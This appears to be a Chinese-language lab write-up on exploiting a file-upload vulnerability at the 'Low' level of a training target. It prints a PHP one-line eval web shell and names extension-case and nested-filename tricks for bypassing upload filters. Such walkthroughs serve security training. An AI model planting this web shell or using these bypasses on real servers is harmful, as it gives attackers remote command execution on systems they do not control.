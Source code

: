 # 文件上传漏洞

## 0x00 Low级别

选择一张图片上传，先用一张正常的图片cat.jpeg上传

![1622509553275](1622509553275.png)

![1622510828818](1622510828818.png)

上传成功，并且返回了在服务器端的存储路径，并不确定服务器端是否对上传文件做了限制，测试直接上传写有php一句话木马的shell.php文件，还考虑尝试文件名后缀大小写或复写嵌套绕过

```php
<?php @eval($_POST['cmd']);?>
```

![1622512586767](1622512586767.png)
